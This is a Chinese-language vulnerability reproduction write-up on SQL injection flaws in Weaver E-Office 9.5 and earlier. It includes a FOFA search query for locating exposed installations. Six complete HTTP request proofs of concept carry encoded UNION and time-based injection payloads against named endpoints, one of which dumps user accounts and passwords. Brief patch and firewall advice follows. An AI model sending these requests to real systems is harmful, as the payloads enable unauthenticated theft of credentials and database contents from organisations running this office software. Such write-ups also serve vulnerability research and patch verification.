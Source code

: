 
# 泛微E-Office SQL注入漏洞复现

### 0x01 产品简介

    [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)E-Office是一款标准化的协同 OA 办公软件，泛微协同办公产品系列成员之一,实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

    泛微e-office  json\_common.php、flow\_xml.php、sms\_page.php、getUserLists、detail.php、Init.php等接口处存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

### 0x03 影响范围

e-office <=9.5

### 0x04 复现环境 

FOFA：app="泛微-EOffice"

![](assets/1701222712-b28d542d099eeb6c913fa7a595b88e3e.png)

### 0x05 漏洞复现

**PoC-1**

```cobol
POST /building/json_common.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city%60+where+cityId+%3D-1+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C2%2C%28%2F%2A%2150000select%2A%2F+group_concat%28user_id%2Cuser_accounts%2Cuser_name%2Cpassword%29+from+user%29%2C4%23%7C2
```

获取用户账号密码信息

![](assets/1701222712-31d03486aa8fc2e20aa9465d99a9e64e.png)**PoC-2**

```cobol
GET /general/system/workflow/flow_type/flow_xml.php?SORT_ID=1+UNION+ALL+SELECT+CONCAT%280x716a717071%2C%40%40version%2C0x716a717071%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询数据库版本

![](assets/1701222712-1c92507ce2160223b79334a14121ea82.png)**PoC-3** 

```cobol
GET /E-mobile/sms_page.php?detailid=123%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,CONCAT(0x7e,user(),0x7e),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前用户

![](assets/1701222712-1c9681b4a71454853aa446bcf0305c97.png)**PoC-4**

```cobol
GET /E-mobile/App/System/UserSelect/index.php?m=getUserLists&privId=1+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,(concat(database()))-- HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前数据库

![](assets/1701222712-2f1f0b968788badbf198e5ae6f1259ec.png)**PoC-5** 

```cobol
POST /general/crm/linkman/query/detail.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Cookie: PHPSESSID=eff067b73c42eed28e55fd037563593a; LOGIN_LANG=cn; expires=Tue, 22-Apr-2025 14:54:24 GMT
Accept-Encoding: gzip

linkman_id=1%20AND%20%28SELECT%205830%20FROM%20%28SELECT%28SLEEP%285%29%29%29mDdD%29
```

延时5秒

![](assets/1701222712-97fbc09fc901568de12e586465c12c53.png)**PoC-6**

```cobol
POST /E-mobile/App/Init.php?m=getSelectList_Crm HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

cc_parent_id=-999+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C%28%2F%2A%2150000select%2A%2F+user%28%29%29%23
```

查询当前用户 

![](assets/1701222712-891385f713182d7aab84b69eac5a2b4f.png)

### 0x06 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：https://www.e-office.cn/

临时修复方案：

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
